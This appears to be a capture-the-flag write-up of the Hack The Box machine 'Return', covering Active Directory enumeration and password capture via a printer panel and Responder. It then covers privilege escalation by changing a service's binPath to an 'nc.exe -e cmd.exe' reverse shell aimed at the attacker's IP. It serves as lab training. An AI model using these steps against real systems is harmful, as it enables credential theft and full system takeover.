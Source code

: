 # HTB - Return

#### Ip: 10.10.11.108
#### Name: Return
#### Rating: Easy

----------------------------------------------------------------------

![Return.png](../assets/return_assets/Return.png)

### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box. I'll also use the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.108 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:01 CDT
Nmap scan report for 10.10.11.108
Host is up (0.082s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49694/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

Lets dive deeper by also using the `-sV` and `-sC` flags to enumerate versions and use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -sC -sV -T4 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:04 CDT
Nmap scan report for 10.10.11.108
Host is up (0.071s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-05 19:22:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T19:23:51
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 18m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.95 seconds
```

Ok cool, looks like we are dealing with an Active Directory box here. 

I always like to start off my enumeration by looking at LDAP:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ nmap -n -sV --script "ldap* and not brute" 10.10.11.108
```

This didn't return much of use for us, but did drop a DNS Hostname:

![ldap.png](../assets/return_assets/ldap.png)

Lets go ahead and add return.local and printer.return.local to `/etc/hosts`

Checking out return.local, we find a Printer Admin Panel. Poking around a bit more we see an interesting Settings page:

![settings_page.png](../assets/return_assets/settings_page.png)

Going off a hunch I start a Responder listener on my tun0 interface using:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo responder -I tun0 -wv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```

And change the 'Server Address' field to my tun0 IP address and click update.

Nice looks like we were able to capture the passsword for svc-printer!

![svc-printer_pw.png](../assets/return_assets/svc-printer_pw.png)

Awesome! We can use these creds to directly logon to the box:

```text                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> hostname
printer
```
Lets grab the user.txt flag:

![user_flag.png](../assets/return_assets/user_flag.png)

### Privilege Escalation

Running `whomai /all` show we are are in a high manadatory label shell, but more importantly, it looks like we are also in the Server Operators Group

![server_operators.png](../assets/return_assets/server_operators.png)

Because svc-printer is in the server operators group, that means we can start and stop services on the machine.

Lets see what services are running here:

![services.png](../assets/return_assets/services.png)

Cool, lots to choose from! Lets kick this off by uploading nc.exe to the target. Once nc.exe is on the target our goal will be to modify the path for one of the services, stop the service, set up a netcat listener, and finally restart the service, which should give us back a reverse shell with elevated permissions.

Lets try the VMTools service first:

```text
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.7 8888"
```

Then we need to set up a listener and simply stop and start the service:

```text
sc.exe stop VMTools
sc.exe start VMTools
```

And sure enough we catch a shell back!

![shell.png](../assets/return_assets/shell.png)

All that's left to do now is grab the root.txt flag:

![root_flag.png](../assets/return_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------------------
